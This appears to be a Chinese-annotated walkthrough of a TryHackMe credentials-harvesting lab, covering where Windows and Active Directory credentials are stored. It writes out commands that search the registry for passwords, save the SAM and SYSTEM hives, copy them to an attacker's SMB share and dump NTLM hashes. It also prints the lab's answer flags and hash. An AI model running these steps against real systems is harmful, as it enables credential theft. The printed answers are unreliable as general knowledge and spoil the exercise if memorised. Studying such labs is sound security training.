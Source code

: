 # Task 2  Credentials Harvesting

```
xfreerdp /u:thm /p:'Passw0rd!' /v:10.10.188.234 +clipboard
```

# Task 3  Credential Access

用户凭据通常会出现在：

1. Clear-text files（明文文件）

攻击者可能感兴趣的一些明文文件类型：

> Commands history（命令行历史记录）
> Configuration files (Web App, FTP files, etc.)（配置文件）
> Other Files related to Windows Applications (Internet Browsers, Email Clients, etc.)（与 Windows 应用程序（Internet 浏览器、电子邮件客户端等）相关的其他文件）
> Backup files（备份文件）
> Shared files and folders（共享文件夹和文件）
> Registry（注册表）
> Source code （源代码）


powershell历史记录存储在：
```
C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

2. Database files（数据库文件）

3. Memory（内存）

包括

> Clear-text credentials（明文凭据）
> Cached passwords（缓存密码）
> AD Tickets（活动目录票据）

4. Password managers（密码管理器）

分为：
> Built-in password managers (Windows)(内置密码管理器 (Windows))
> Third-party: KeePass, 1Password, LastPass（第三方：KeePass、1Password、LastPass）

5. Enterprise Vaults（企业保险库）

6. Active Directory（活动目录）

一些可能泄露用户凭据的 Active Directory 错误配置

> Users' description: Administrators set a password in the description for new employees and leave it there, which makes the account vulnerable to unauthorized access. (用户描述：管理员在新员工的描述中设置密码并留在那里，这使得帐户容易受到未经授权的访问)

> Group Policy SYSVOL: Leaked encryption keys let attackers access administrator accounts. (组策略 SYSVOL：泄露的加密密钥让攻击者可以访问管理员帐户)

> NTDS: Contains AD users' credentials, making it a target for attackers.(包含 AD 用户的凭据，使其成为攻击者的目标)

> AD Attacks: Misconfiguration makes AD vulnerable to various attacks(AD 攻击：错误配置使 AD 容易受到各种攻击)

7. Network Sniffing（网络嗅探）

使用命令
```
reg query HKLM /f password /t REG_SZ /s

<skip..>
HKEY_LOCAL_MACHINE\SYSTEM\THM
    flag    REG_SZ    password: 7tyh4ckm3
```

> Use the methods shown in this task to search through the Windows registry for an entry called "flag" which contains a password. What is the password?

> 7tyh4ckm3

> Enumerate the AD environment we provided. What is the password of the victim user found in the description section?

> Passw0rd!@#


# Task 4  Local Windows Credentials

转存sam和system文件
```
C:\Users\Administrator\Desktop>reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
The operation completed successfully.

C:\Users\Administrator\Desktop>reg save HKLM\system C:\users\Administrator\Desktop\system-reg
The operation completed successfully.
```

kali开一个共享
```
/usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -username thm -password Passw0rd!
```

复制文件到kali
```
C:\Users\Administrator\Desktop>copy sam-reg \\10.13.21.169\share\
        1 file(s) copied.

C:\Users\Administrator\Desktop>copy system-reg \\10.13.21.169\share\
		1 file(s) copied.
```

使用secretsdump.py dump出哈希

```
/usr/share/doc/python3-impacket/examples/secretsdump.py -sam /root/tryhackme/sam-reg -system /root/tryhackme/system-reg LOCAL
```

> Follow the technique discussed in this task to dump the content of the SAM database file. What is the NTLM hash for the Administrator account?

> 98d3a787a80d08385cea7fb4aa2a4261